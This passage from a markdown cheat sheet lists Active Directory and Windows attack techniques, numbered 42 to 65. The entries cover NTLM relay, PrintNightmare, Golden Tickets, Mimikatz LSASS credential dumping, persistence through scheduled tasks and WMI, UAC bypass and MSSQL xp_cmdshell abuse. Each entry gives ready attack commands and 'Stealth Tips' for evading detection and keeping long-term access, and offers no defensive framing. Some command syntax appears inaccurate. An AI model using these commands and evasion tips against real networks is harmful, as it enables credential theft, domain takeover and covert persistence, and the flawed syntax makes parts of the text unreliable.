- **Stealth Tips**: Exploit causes logs; use once and reset DC account  
</details>

<a name="ntlm-relay"></a>
<details>
  <summary><strong>42. NTLM Relay</strong></summary>

- **Purpose**: Intercept and relay authentication to another service  
- **Functionality**: Man-in-the-middle attack using NTLM challenge-response  
- **Why It's Vulnerable**: Services accepting NTLM without signing  
- **How to Test**: Use responder + ntlmrelayx  
```bash
responder -I eth0
ntlmrelayx.py -t ldap://target --escalate-user vulnerable
```
- **Tools**: Responder, ntlmrelayx  
- **Stealth Tips**: Relay once; avoid repeated noise  
</details>

<a name="printnightmare-cve-2021-34527"></a>
<details>
  <summary><strong>43. PrintNightmare (CVE-2021-34527)</strong></summary>

- **Purpose**: Remote code execution via Print Spooler service  
- **Functionality**: Uploads DLL to system via printer API  
- **Why It's Vulnerable**: Print Spooler exposed and unpatched  
- **How to Test**: Use exploit to write DLL and trigger  
```bash
Invoke-Nightmare -NewUser "pwned" -AddToAdministrators
```
- **Tools**: PowerShell PoCs, Mimikatz  
- **Stealth Tips**: Remove DLL, cleanup user afterward  
</details>

<a name="samaccountname-spoofing-cve-2021-42278"></a>
<details>
  <summary><strong>44. SAMAccountName Spoofing (CVE-2021-42278)</strong></summary>

- **Purpose**: Rename machine account to impersonate a domain admin  
- **Functionality**: Exploits mismatch in machine account naming checks  
- **Why It's Vulnerable**: No strict validation for account renames  
- **How to Test**: Rename machine account and request TGT  
```powershell
Rename-ADObject -Identity "CN=old" -NewName "DC01"
Rubeus asktgt /user:DC01 /rc4:<hash>
```
- **Tools**: PowerShell, Rubeus  
- **Stealth Tips**: Rename back quickly; keep account disposable  
</details>

<a name="petitpotam-adcs-relay"></a>
<details>
  <summary><strong>45. PetitPotam + ADCS Relay</strong></summary>

- **Purpose**: Coerce machine to authenticate to attacker and relay to ADCS  
- **Functionality**: EFSRPC coercion to force auth + ADCS relay  
- **Why It's Vulnerable**: Unauthenticated access to EFSRPC + misconfigured templates  
- **How to Test**: Use petitpotam + ntlmrelayx  
```bash
python3 petitpotam.py attacker-ip target-ip
ntlmrelayx.py -t http://CA-server/certsrv/ --adcs
```
- **Tools**: petitpotam, ntlmrelayx  
- **Stealth Tips**: Coerce once; use high-integrity cert template  
</details>

<a name="delegation-abuse-unconstrained"></a>
<details>
  <summary><strong>46. Delegation Abuse - Unconstrained</strong></summary>

- **Purpose**: Abuse unconstrained delegation to impersonate users  
- **Functionality**: Attacker machine gets TGTs when user logs in  
- **Why It's Vulnerable**: Unconstrained delegation set on computer object  
- **How to Test**: Trick user into authenticating to attacker-controlled host  
```powershell
# After victim auths
Rubeus tgtdeleg
```
- **Tools**: Rubeus, Mimikatz  
- **Stealth Tips**: Limit use of captured TGTs; cleanup afterwards  
</details>

<a name="kerberos-rc4-hashing-deprecated-vuln"></a>
<details>
  <summary><strong>47. Kerberos RC4 Hashing (Weak Crypto)</strong></summary>

- **Purpose**: Exploit weak encryption for ticket forging  
- **Functionality**: Use known hash to forge TGT/TGS  
- **Why It's Vulnerable**: Legacy support of RC4 and weak crypto algorithms  
- **How to Test**: Force RC4 with Rubeus and inject forged tickets  
```powershell
Rubeus asktgt /user:target /rc4:<ntlm> /ptt
```
- **Tools**: Rubeus  
- **Stealth Tips**: Avoid triggering Kerberos events  
</details>

<a name="kerberos-golden-ticket"></a>
<details>
  <summary><strong>48. Golden Ticket</strong></summary>

- **Purpose**: Forge TGTs as any user including domain admins  
- **Functionality**: Use krbtgt hash to craft TGT  
- **Why It's Vulnerable**: DC trusts TGTs signed by krbtgt  
- **How to Test**: Dump krbtgt hash and create TGT  
```powershell
mimikatz "kerberos::ptt golden.kirbi"
```
- **Tools**: Mimikatz  
- **Stealth Tips**: Use short lifetime TGTs; avoid excessive privileges  
</details>

<a name="ldap-signing-bypass"></a>
<details>
  <summary><strong>49. LDAP Signing Not Enforced</strong></summary>

- **Purpose**: Relay NTLM to LDAP without signing  
- **Functionality**: AD doesn’t require LDAP signing by default  
- **Why It's Vulnerable**: Enables relaying to domain controller  
- **How to Test**: Relay NTLM to LDAP using ntlmrelayx  
```bash
ntlmrelayx.py -t ldap://dc-ip --escalate-user victim
```
- **Tools**: ntlmrelayx, Responder  
- **Stealth Tips**: Limit relays; delete accounts created  
</details>

<a name="overpass-the-hash-pass-the-key"></a>
<details>
  <summary><strong>50. OverPass-the-Hash (Pass-the-Key)</strong></summary>

- **Purpose**: Authenticate using NTLM hash by forging TGT  
- **Functionality**: Use AES/RC4 hash to generate TGT  
- **Why It's Vulnerable**: Kerberos accepts keys instead of passwords  
- **How to Test**: Use Mimikatz or Rubeus to craft TGT  
```powershell
mimikatz "kerberos::ptt /user:user /domain:lab.local /rc4:<ntlm>"
```
- **Tools**: Mimikatz, Rubeus  
- **Stealth Tips**: Clean up injected tickets  
</details>


<a name="resource-based-constrained-delegation"></a>
<details>
  <summary><strong>51. Resource-Based Constrained Delegation (RBCD)</strong></summary>

- **Purpose**: Allow impersonation on target by modifying msDS-AllowedToActOnBehalfOfOtherIdentity  
- **Functionality**: Attacker-controlled computer account is delegated on victim  
- **Why It's Vulnerable**: ACL misconfig or writable attributes allow delegation abuse  
- **How to Test**:
```powershell
Add-DComputer -ComputerName 'pwned' -SAMAccountName 'pwned$'
Set-ADComputer 'victim$' -PrincipalsAllowedToDelegateToAccount 'pwned$'
```
- **Tools**: PowerView, Rubeus, Impacket  
- **Stealth Tips**: Use stealthy names; revert delegation post-access  
</details>

<a name="unquoted-service-path"></a>
<details>
  <summary><strong>52. Unquoted Service Path</strong></summary>

- **Purpose**: Exploit path parsing to run malicious binary with service privileges  
- **Functionality**: Windows may misinterpret unquoted service paths with spaces  
- **Why It's Vulnerable**: Service binary path is not wrapped in quotes  
- **How to Test**:
```powershell
sc qc vulnservice
# Place binary at 'C:\Program Files\Some App\evil.exe'
```
- **Tools**: PowerUp, accesschk.exe  
- **Stealth Tips**: Clean up binary; requires service restart  
</details>

<a name="weak-service-permissions"></a>
<details>
  <summary><strong>53. Weak Service Permissions</strong></summary>

- **Purpose**: Modify service binary to execute attacker code  
- **Functionality**: Service permissions allow write/replace of executable  
- **Why It's Vulnerable**: Misconfigured DACLs on service or executable  
- **How to Test**:
```powershell
accesschk.exe -uwcqv "Authenticated Users" * /svc
sc config vulnservice binpath= "C:\evil.exe"
```
- **Tools**: PowerUp, accesschk, sc.exe  
- **Stealth Tips**: Revert path after execution  
</details>

<a name="mimikatz-sekurlsa-dump"></a>
<details>
  <summary><strong>54. Credential Dumping with Mimikatz</strong></summary>

- **Purpose**: Extract plaintext passwords, hashes, and tickets from LSASS  
- **Functionality**: LSASS memory stores creds of logged-in users  
- **Why It's Vulnerable**: LSASS is accessible to admin-level users  
- **How to Test**:
```powershell
mimikatz
privilege::debug
sekurlsa::logonpasswords
```
- **Tools**: Mimikatz  
- **Stealth Tips**: Avoid AV/EDR detection; use memory-safe methods  
</details>

<a name="browser-creds-and-lsass"></a>
<details>
  <summary><strong>55. Dumping Browser Creds & LSASS Offline</strong></summary>

- **Purpose**: Steal saved browser passwords or LSASS dump for offline parsing  
- **Functionality**: Use tools to decrypt browser or parse minidumps  
- **Why It's Vulnerable**: Browsers and LSASS often store sensitive data  
- **How to Test**:
```bash
procdump64.exe -ma lsass.exe lsass.dmp
mimikatz "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords"
```
- **Tools**: Mimikatz, procdump, LaZagne  
- **Stealth Tips**: Upload & analyze offline; clean up dumps  
</details>

<a name="wmi-persistence"></a>
<details>
  <summary><strong>56. WMI Event Subscription Persistence</strong></summary>

- **Purpose**: Maintain access using permanent WMI events  
- **Functionality**: Register event filters and consumers to execute payload  
- **Why It's Vulnerable**: WMI can persist actions without files  
- **How to Test**:
```powershell
Invoke-WmiEvent -Trigger Win32ProcessStartTrace -Command "calc.exe"
```
- **Tools**: PowerShell, WMIExplorer  
- **Stealth Tips**: Hard to detect; clear subscriptions later  
</details>

<a name="scheduled-task-persistence"></a>
<details>
  <summary><strong>57. Scheduled Task Persistence</strong></summary>

- **Purpose**: Run payload at logon or system boot  
- **Functionality**: Task Scheduler executes attacker-defined task  
- **Why It's Vulnerable**: Misconfigured permissions or admin access  
- **How to Test**:
```powershell
schtasks /create /tn "Updater" /tr "C:\evil.exe" /sc onlogon /ru System
```
- **Tools**: schtasks, PowerSploit  
- **Stealth Tips**: Use legit-looking names and paths  
</details>

<a name="user-account-control-bypass"></a>
<details>
  <summary><strong>58. UAC Bypass</strong></summary>

- **Purpose**: Elevate from medium integrity to high integrity without prompt  
- **Functionality**: Abuse auto-elevated binaries  
- **Why It's Vulnerable**: Auto-elevate rules and DLL hijacking  
- **How to Test**:
```powershell
Invoke-BinaryUACBypass -Method fodhelper -Command "C:\evil.exe"
```
- **Tools**: UACME, PowerUp  
- **Stealth Tips**: Use signed binaries if possible  
</details>

<a name="shadow-credentials"></a>
<details>
  <summary><strong>59. Shadow Credentials</strong></summary>

- **Purpose**: Persist access via alternate credentials (KeyCredential)  
- **Functionality**: Add attacker public key to victim user object  
- **Why It's Vulnerable**: Weak ACLs allow key injection  
- **How to Test**:
```bash
certify shadow /user:target /dc:dc-ip /machine:attacker
```
- **Tools**: Certify, Whisker, SharpHound  
- **Stealth Tips**: Silent persistence method  
</details>

<a name="adcs-template-misconfig"></a>
<details>
  <summary><strong>60. ADCS Certificate Template Misconfig</strong></summary>

- **Purpose**: Abuse vulnerable certificate templates to escalate  
- **Functionality**: Enroll in low-privilege templates with high privilege rights  
- **Why It's Vulnerable**: Wrong security descriptors on templates  
- **How to Test**:
```bash
certify find /vulnerable
certify request /template:User /altname:admin
```
- **Tools**: Certify, ADCSKit  
- **Stealth Tips**: Remove certs after use  
</details>

<a name="printerbug-coercion"></a>
<details>
  <summary><strong>61. PrinterBug Coercion</strong></summary>

- **Purpose**: Coerce machine to authenticate to attacker  
- **Functionality**: Send Print Spooler call that triggers SMB auth  
- **Why It's Vulnerable**: Printer bug causes machine auth leak  
- **How to Test**:
```bash
rpcdump.py @target -U user
printerbug.py attacker@domain target
```
- **Tools**: printerbug.py, Responder  
- **Stealth Tips**: Use once per target; rotate SMB listener  
</details>

<a name="priv-esc-across-trust-key-abuse"></a>
<details>
  <summary><strong>62. PrivEsc across External Trust – Trust Key Abuse</strong></summary>

- **Purpose**: Exploit trust misconfig to access another domain  
- **Functionality**: Abuse shared trust keys to forge cross-domain tickets  
- **Why It's Vulnerable**: Poor trust config allows forging with known keys  
- **How to Test**:
```powershell
Rubeus tgtdeleg /rc4:<trustkey> /domain:child.domain
```
- **Tools**: Rubeus, Mimikatz  
- **Stealth Tips**: Minimal noise across domains; cleanup tickets  
</details>

<a name="kerberos-key-listing-dumping"></a>
<details>
  <summary><strong>63. Kerberos Key Listing/Dumping</strong></summary>

- **Purpose**: Extract Kerberos keys from memory or dump  
- **Functionality**: Keys used for ticket encryption are dumped from LSASS  
- **Why It's Vulnerable**: Keys reside in memory  
- **How to Test**:
```powershell
mimikatz "sekurlsa::ekeys"
```
- **Tools**: Mimikatz  
- **Stealth Tips**: Avoid AV detection; use offline analysis  
</details>

<a name="kerberos-renewable-ticket-abuse"></a>
<details>
  <summary><strong>64. Renewable Kerberos Ticket Abuse</strong></summary>

- **Purpose**: Persist access by renewing TGT indefinitely  
- **Functionality**: Create long-lifetime ticket and keep renewing  
- **Why It's Vulnerable**: Policy allows long ticket lifetimes  
- **How to Test**:
```powershell
Rubeus renew /ticket:<kirbi>
```
- **Tools**: Rubeus  
- **Stealth Tips**: Fly under radar with long-term access  
</details>

<a name="trust-abuse-mssql"></a>
<details>
  <summary><strong>65. Trust Abuse - MSSQL Servers</strong></summary>

- ✅ <strong>Purpose</strong>: Lateral movement or privilege escalation using trusted MSSQL links  
- ✅ <strong>Functionality</strong>: MSSQL servers can be linked via <code>sp_addlinkedserver</code>, allowing commands to be run remotely  
- ✅ <strong>Why It's Vulnerable</strong>: Poorly secured links, weak permissions, or trust misconfigurations can be abused  
- ✅ <strong>How to Test</strong>: Attempt to enumerate or create linked servers and run remote commands via <code>xp_cmdshell</code>  
- ✅ <strong>Tools</strong>: <code>mssqlclient.py</code>, <code>PowerUpSQL</code>, <code>sqsh</code>, <code>sqlcmd</code>  
- ✅ <strong>Stealth Tips</strong>: Use SQL commands to stay within DB context; avoid noisy OS-level interactions  

<pre><code class="language-sql">
-- Enable xp_cmdshell if allowed
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

-- Exploit linked server
EXEC ('xp_cmdshell ''whoami''') AT [linked_server_name];
</code></pre>

</details>
